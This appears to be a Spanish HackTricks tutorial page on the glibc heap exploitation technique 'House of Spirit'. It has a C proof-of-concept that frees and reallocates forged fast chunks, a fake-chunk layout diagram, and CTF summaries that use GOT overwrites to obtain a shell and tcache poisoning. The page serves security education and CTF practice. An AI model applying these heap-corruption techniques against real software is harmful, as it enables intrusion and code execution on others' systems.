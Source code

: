 # Casa del Espíritu

{% hint style="success" %}
Aprende y practica Hacking en AWS: <img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos en** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## Información Básica

### Código

<details>

<summary>Casa del Espíritu</summary>
```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

// Code altered to add som prints from: https://heap-exploitation.dhavalkapil.com/attacks/house_of_spirit

struct fast_chunk {
size_t prev_size;
size_t size;
struct fast_chunk *fd;
struct fast_chunk *bk;
char buf[0x20];               // chunk falls in fastbin size range
};

int main() {
struct fast_chunk fake_chunks[2];   // Two chunks in consecutive memory
void *ptr, *victim;

ptr = malloc(0x30);

printf("Original alloc address: %p\n", ptr);
printf("Main fake chunk:%p\n", &fake_chunks[0]);
printf("Second fake chunk for size: %p\n", &fake_chunks[1]);

// Passes size check of "free(): invalid size"
fake_chunks[0].size = sizeof(struct fast_chunk);

// Passes "free(): invalid next size (fast)"
fake_chunks[1].size = sizeof(struct fast_chunk);

// Attacker overwrites a pointer that is about to be 'freed'
// Point to .fd as it's the start of the content of the chunk
ptr = (void *)&fake_chunks[0].fd;

free(ptr);

victim = malloc(0x30);
printf("Victim: %p\n", victim);

return 0;
}
```
</details>

### Objetivo

* Ser capaz de agregar una dirección al tcache / fast bin para luego poder asignarla

### Requisitos

* Este ataque requiere que un atacante pueda crear un par de fragmentos rápidos falsos indicando correctamente el valor de tamaño y luego ser capaz de liberar el primer fragmento falso para que entre en el bin.

### Ataque

* Crear fragmentos falsos que eviten las comprobaciones de seguridad: básicamente necesitarás 2 fragmentos falsos indicando en las posiciones correctas los tamaños correctos
* De alguna manera lograr liberar el primer fragmento falso para que entre en el bin rápido o tcache y luego asignarlo para sobrescribir esa dirección

**El código de** [**guyinatuxedo**](https://guyinatuxedo.github.io/39-house\_of\_spirit/house\_spirit\_exp/index.html) **es excelente para entender el ataque.** Aunque este esquema del código lo resume bastante bien:
```c
/*
this will be the structure of our two fake chunks:
assuming that you compiled it for x64

+-------+---------------------+------+
| 0x00: | Chunk # 0 prev size | 0x00 |
+-------+---------------------+------+
| 0x08: | Chunk # 0 size      | 0x60 |
+-------+---------------------+------+
| 0x10: | Chunk # 0 content   | 0x00 |
+-------+---------------------+------+
| 0x60: | Chunk # 1 prev size | 0x00 |
+-------+---------------------+------+
| 0x68: | Chunk # 1 size      | 0x40 |
+-------+---------------------+------+
| 0x70: | Chunk # 1 content   | 0x00 |
+-------+---------------------+------+

for what we are doing the prev size values don't matter too much
the important thing is the size values of the heap headers for our fake chunks
*/
```
{% hint style="info" %}
Ten en cuenta que es necesario crear el segundo chunk para evadir algunas comprobaciones de integridad.
{% endhint %}

## Ejemplos

* **CTF** [**https://guyinatuxedo.github.io/39-house\_of\_spirit/hacklu14\_oreo/index.html**](https://guyinatuxedo.github.io/39-house\_of\_spirit/hacklu14\_oreo/index.html)
* **Fuga de información de Libc**: A través de un desbordamiento es posible cambiar un puntero para que apunte a una dirección GOT con el fin de filtrar una dirección de Libc a través de la acción de lectura del CTF.
* **House of Spirit**: Abusando de un contador que cuenta el número de "rifles", es posible generar un tamaño falso del primer chunk falso, luego abusando de un "mensaje" es posible falsificar el segundo tamaño de un chunk y finalmente abusando de un desbordamiento es posible cambiar un puntero que va a ser liberado para que nuestro primer chunk falso sea liberado. Luego, podemos asignarlo y dentro de él estará la dirección donde se almacena el "mensaje". Luego, es posible hacer que esto apunte a la entrada `scanf` dentro de la tabla GOT, para que podamos sobrescribirla con la dirección a system.\
La próxima vez que se llame a `scanf`, podemos enviar la entrada `"/bin/sh"` y obtener una shell.

* [**Gloater. HTB Cyber Apocalypse CTF 2024**](https://7rocky.github.io/en/ctf/other/htb-cyber-apocalypse/gloater/)
* **Fuga de Glibc**: Búfer de pila no inicializado.
* **House of Spirit**: Podemos modificar el primer índice de una matriz global de punteros de heap. Con una modificación de un solo byte, usamos `free` en un chunk falso dentro de un chunk válido, de modo que obtengamos una situación de chunks superpuestos después de asignar nuevamente. Con eso, un simple ataque de envenenamiento de Tcache funciona para obtener un primitivo de escritura arbitraria.

## Referencias

* [https://heap-exploitation.dhavalkapil.com/attacks/house\_of\_spirit](https://heap-exploitation.dhavalkapil.com/attacks/house\_of\_spirit)

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* ¡Consulta los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
